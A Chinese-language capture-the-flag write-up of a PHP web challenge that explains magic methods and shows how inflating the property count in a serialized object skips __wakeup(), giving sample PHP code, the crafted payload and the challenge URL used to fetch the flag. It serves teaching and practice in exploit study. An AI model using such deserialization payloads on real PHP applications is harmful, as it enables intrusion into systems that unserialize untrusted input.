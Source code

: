 ## 题目描述

无

## 思路

打开题目，看到一段代码

![20190831114825.png](https://raw.githubusercontent.com/handbye/images/master/20190831114825.png)

代码审计走起，最重要的是这一个函数`function __wakeup()`，配合题目unserialize想到PHP的序列化和反序列化

关于PHP的序列话请参考文章：[深度剖析PHP序列化和反序列化](https://www.cnblogs.com/youyoui/p/8610068.html)

__wakeup()函数用法:

__wakeup()是用在反序列化操作中。unserialize()会检查存在一个__wakeup()方法。如果存在，则先会调用__wakeup()方法。

```php
<?php
class A{
function __wakeup(){
echo 'Hello';
}
}
$c = new A();
$d=unserialize('O:1:"A":0:{}');
?>
```

最后页面输出了Hello。在反序列化的时候存在__wakeup()函数，所以最后就会输出Hello

__wakeup()函数漏洞说明:

```php
<?php
class Student{
public $full_name = 'zhangsan';
public $score = 150;
public $grades = array();

function __wakeup() {
echo "__wakeup is invoked";
}
}

$s = new Student();
var_dump(serialize($s));
?>
```

最后页面上输出的就是Student对象的一个序列化输出:

```txt
O:7:"Student":3:{s:9:"full_name";s:8:"zhangsan";s:5:"score";i:150;s:6:"grades";a:0:{}}
```

其中在Stuedent类后面有一个数字3，整个3表示的就是Student类存在3个属性。

__wakeup()漏洞就是与整个属性个数值有关。当序列化字符串表示对象属性个数的值大于真实个数的属性时就会跳过__wakeup的执行。

当我们将上述的序列化的字符串中的对象属性个数修改为5，变为

```txt
O:7:"Student":5:{s:9:"full_name";s:8:"zhangsan";s:5:"score";i:150;s:6:"grades";a:0:{}}
```

最后执行运行的代码如下:

```php
class Student{
public $full_name = 'zhangsan';
public $score = 150;
public $grades = array();

function __wakeup() {
echo "__wakeup is invoked";
}
function __destruct() {
var_dump($this);
}
}

$s = new Student();
$stu = unserialize('O:7:"Student":5:{s:9:"full_name";s:8:"zhangsan";s:5:"score";i:150;s:6:"grades";a:0:{}}');
```

这样就成功地绕过了__wakeup()函数。

再此题中，我们也需要绕过__weakup函数，结果`?code=`的提示，需要将序列化之后的值传给code。

首先实例化xctf类并对其使用序列化（这里就实例化xctf类为对象test）

```php
<?php
class xctf{                      //定义一个名为xctf的类
public $flag = '111';            //定义一个公有的类属性$flag，值为111
public function __wakeup(){      //定义一个公有的类方法__wakeup()，输出bad requests后退出当前脚本
exit('bad requests');
}
}
$test = new xctf();           //使用new运算符来实例化该类（xctf）的对象为test
echo(serialize($test));       //输出被序列化的对象（test）
?>
```

执行结果

```txt
O:4:"xctf":1:{s:4:"flag";s:3:"111";}
```

我们要反序列化xctf类的同时还要绕过__wakeup方法的执行（如果不绕过__wakeup()方法，那么将会输出bad requests并退出脚本），__wakeup()函数漏洞原理：当序列化字符串表示对象属性个数的值大于真实个数的属性时就会跳过__wakeup的执行。因此，需要修改序列化字符串中的属性个数：

当我们将上述的序列化的字符串中的对象属性个数由真实值1修改为2，即如下所示：

```txt
O:4:"xctf":2:{s:4:"flag";s:3:"111";}
```

访问url：http://111.198.29.45:30940?code=O:4:"xctf":2:{s:4:"flag";s:3:"111";}

即可得到flag

![20190831132134.png](https://raw.githubusercontent.com/handbye/images/master/20190831132134.png)

参考文章：

- https://xz.aliyun.com/t/378
- https://blog.csdn.net/qq_41617034/article/details/91999343
- https://www.cnblogs.com/youyoui/p/8610068.html
- http://blog.sina.com.cn/s/blog_15ebf299a0102xnug.html
